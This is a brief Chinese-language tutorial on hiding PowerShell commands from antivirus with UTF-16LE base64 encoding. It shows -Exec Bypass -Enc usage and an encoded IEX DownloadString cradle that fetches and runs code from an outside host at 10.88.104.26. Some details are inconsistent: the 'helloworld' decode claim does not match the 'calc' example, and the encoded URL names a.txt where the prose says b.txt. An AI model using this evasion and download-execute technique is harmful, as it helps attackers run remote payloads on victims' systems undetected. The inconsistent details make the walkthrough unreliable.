

普通的base64编码容易被查杀??

使用这个工具base64编码长度增加1倍。

https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py

例如，将"calc" 保存在a.txt

执行：

	$python ps_encoder.py -s a.txt

	YwBhAGwAYwA=

在这个网站解码 http://tool.chinaz.com/tools/base64.aspx 可以解出helloworld。

powershell 执行：

	PowerShell.exe -Exec Bypass -Enc YwBhAGwAYwA=

弹出计算器。

a.txt 保存：

	IEX(New-Object Net.WebClient).DownloadString('http://10.88.104.26:8000/b.txt')

b.txt 保存：

	echo helloworld

powershell执行：

	PowerShell.exe -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADgAOAAuADEAMAA0AC4AMgA2ADoAOAAwADAAMAAvAGEALgB0AHgAdAAnACkA

